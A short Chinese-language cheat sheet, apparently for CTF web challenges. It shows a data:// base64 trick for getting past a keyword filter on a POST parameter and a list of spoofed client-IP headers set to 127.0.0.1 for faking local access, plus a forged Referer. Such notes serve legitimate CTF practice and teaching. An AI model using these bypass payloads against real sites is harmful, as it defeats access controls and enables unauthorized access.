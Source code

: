 ## 要求：
1. 传递一个 post 参数，要求这个参数中不能包含有 http，不能包含 hello123, 并且读取到的结果也是 hello 123。
我们的绕过思路是：通过我们的 data 协议
```
abc=data//text/plain.base64/(hello123的base64)编码
```

## 本地访问：
1. 修改我们的 X-Forwarded-For
```text
X-Forwarded-For:127.0.0.1
X-Forwarded:127.0.0.1
Forwarded-For:127.0.0.1
X-Forwarded-Host:127.0.0.1
X-remote-IP:127.0.0.1
X-remote-addr:127.0.0.1
True-Client-IP:127.0.0.1
X-Client-IP:127.0.0.1
X-Real-IP:127.0.0.1
Ali-CDN-Real-IP:127.0.0.1
Cdn-Src-IP:127.0.0.1
CF-Connecting-IP:127.0.0.1
X-Cluster-Client-IP:127.0.0.1
WL-Proxy-Client-IP:127.0.0.1
Proxy-Client-IP:127.0.0.1
Fastly-Client-Ip:127.0.0.1
True-Client-Ip:127.0.0.1
```

## 指定浏览器：


## 指定来源网站：
```
Referer:google.com
```

